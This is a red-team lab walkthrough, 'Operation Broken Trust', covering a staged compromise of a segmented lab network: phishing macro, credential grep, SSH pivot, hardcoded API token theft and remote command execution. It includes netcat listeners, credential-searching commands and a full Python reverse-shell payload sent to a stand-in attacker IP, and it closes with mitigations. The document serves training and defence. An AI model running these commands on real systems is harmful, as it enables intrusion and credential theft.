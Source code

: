 # Operation Broken Trust

Objective: Simulate a sophisticated adversary leveraging trusted internal relationships and application weaknesses to move laterally through a segmented lab network, culminating in the compromise of a secured management server.

Scenario: The [MycoSec](entity.md) internal lab network is segmented into trust zones, including a development virtual local area network and a secured management virtual local area network. Development servers possess trusted relationships with management systems for deployment tasks. The goal is to pivot from a low-value development server to a high-value management server.

## Phase 1: Initial Compromise Via Weaponised Document

Goal: Gain initial code execution on a developer workstation by exploiting a malicious document.

Instructions:

1.  Deploy The Phishing Lure:
    *   An attacker-controlled server hosts a weaponised macro-enabled document named `Q2_Research_Objectives.docm`.
    *   The document is distributed via a targeted phishing email to a MycoSec developer.

2.  Trigger The Payload:
    *   The developer enables macros, executing the embedded code.
    *   The macro establishes a reverse Hypertext Transfer Protocol Secure shell to the attacker's command and control server.

3.  Establish Foothold:
    *   On the attacker virtual machine, receive the incoming shell connection.
    *   Command: `sudo nc -nvlp 443`
    *   Verification: A command prompt from the developer workstation is received.
    *   Workstation Hostname: `[Discover This]`

Checkpoint: Initial access is achieved on a domain-joined Linux workstation.

## Phase 2: Local Reconnaissance And Credential Discovery

Goal: Discover credentials, keys, or configuration files that grant access to other internal systems.

Instructions:

1.  Examine User History And Files:
    *   Search the user's home directory for files containing passwords or keys.
    *   Command: `grep -r -i "password\|passwd\|key" ~/ 2>/dev/null`
    *   Finding: A file `.env` contains a plaintext password for a service account.
    *   Service Account Password: `[Discover This]`

2.  Inspect Running Processes And Network Connections:
    *   Look for connected systems or authentication tokens.
    *   Command: `netstat -antp | grep ESTABLISHED`
    *   Finding: An established connection is observed to an internal server on port 22. Note the Internet Protocol address.
    *   Internal Server Internet Protocol: `[Discover This]` (Note as `DEV_SERVER`)

3.  Check For Secure Shell Trust Relationships:
    *   Look for authorised keys or known hosts.
    *   Command: `cat ~/.ssh/authorized_keys` and `cat ~/.ssh/known_hosts`
    *   Finding: The `known_hosts` file contains the fingerprint of the `DEV_SERVER`.

Checkpoint: Credentials and a potential lateral movement target are identified.

## Phase 3: Lateral Movement To Development Server

Goal: Use discovered credentials to authenticate to and compromise an internal development server.

Instructions:

1.  Test Credentials On Target Service:
    *   Attempt to authenticate to the `DEV_SERVER` using the discovered service account password via Secure Shell.
    *   Command: `ssh service_account@DEV_SERVER`
    *   Password: `[Service Account Password]`
    *   Verification: Secure Shell access is granted to the development server.

2.  Enumerate Server Role And Function:
    *   Determine the purpose of this server and its privileges.
    *   Command: `sudo -l` and `find / -name ".git" -type d 2>/dev/null`
    *   Finding: The server hosts a Git repository for an internal administration tool. The user can run a specific Python script as root.

Checkpoint: Access is achieved to a more privileged development server hosting source code.

## Phase 4: Exploitation Of Build Mechanism

Goal: Exploit the server's function to gain privileged credentials for the management zone.

Instructions:

1.  Review The Administration Tool Code:
    *   Inspect the Git repository to understand the tool's function.
    *   Command: `cd /opt/management_tool && git log --oneline`
    *   Finding: The tool contains a hardcoded credential for authenticating to the management application programming interface.

2.  Extract Hardcoded Credentials:
    *   Search the source code for keywords related to authentication.
    *   Command: `grep -r -i "token\|api_key\|auth" /opt/management_tool/ 2>/dev/null`
    *   Finding: A file `config.py` contains an application programming interface uniform resource identifier and a token.
    *   Management Application Programming Interface Token: `[Discover This]`

3.  Identify The Management Server:
    *   From the configuration file, note the address of the management application programming interface.
    *   Management Application Programming Interface Host: `[Discover This]` (Note as `MGMT_SERVER`)

Checkpoint: Credentials for the management network are discovered within the application's source code.

## Phase 5: Compromise Of Management Server

Goal: Use the extracted application programming interface token to access the management server and achieve full compromise.

Instructions:

1.  Query The Management Application Programming Interface:
    *   From the development server, query the management application programming interface to test the token.
    *   Command: `curl -H "Authorization: Bearer [API_TOKEN]" https://MGMT_SERVER/api/v1/systems/`
    *   Finding: The command returns a list of all systems managed by the platform.

2.  Exploit Application Programming Interface Functionality:
    *   The application programming interface has a command execution endpoint for remote administration.
    *   Command: `curl -X POST -H "Authorization: Bearer [API_TOKEN]" -H "Content-Type: application/json" -d '{"command": "whoami"}' https://MGMT_SERVER/api/v1/command/`
    *   Verification: The command executes successfully and returns `root`.

3.  Establish A Reverse Shell:
    *   Use the application programming interface to launch a reverse shell payload back to the attacker machine.
    *   Command: `curl -X POST -H "Authorization: Bearer [API_TOKEN]" -H "Content-Type: application/json" -d '{"command": "python3 -c \\"import os, socket, subprocess; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\\"[ATTACKER_IP]\\",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\\""}' https://MGMT_SERVER/api/v1/command/`

4.  Receive The Shell:
    *   On the attacker virtual machine, receive the root shell connection from the management server.
    *   Command: `sudo nc -nvlp 4444`
    *   Verification: A root shell on the management server is received.
    *   Final Hostname: `[Discover This]`

Final Report: Document all the `[Discover This]` fields. Analyse the critical control failures:
1.  Insufficient User Training: A user enabled macros on an untrusted document.
2.  Hardcoded Credentials: Plaintext passwords and application programming interface tokens were stored within source code and configuration files.
3.  Excessive Privileges: A service account used for development had unnecessary access to a production management application programming interface.
4.  Weak Application Programming Interface Security: The management application programming interface did not sufficiently validate commands or implement network-level access controls.

Proposed Mitigations:
1.  Implement Application Allow Listing: Prevent the execution of unauthorised macros and software.
2.  Utilise A Secrets Management Solution: Replace all hardcoded credentials with dynamically injected secrets from a secure vault.
3.  Enforce Strict Network Segmentation: Ensure that development systems cannot initiate connections to management systems without explicit justification and proxy-based inspection.
4.  Harden Application Programming Interfaces: Implement strict input validation and require multi-factor authentication for privileged application programming interface endpoints.
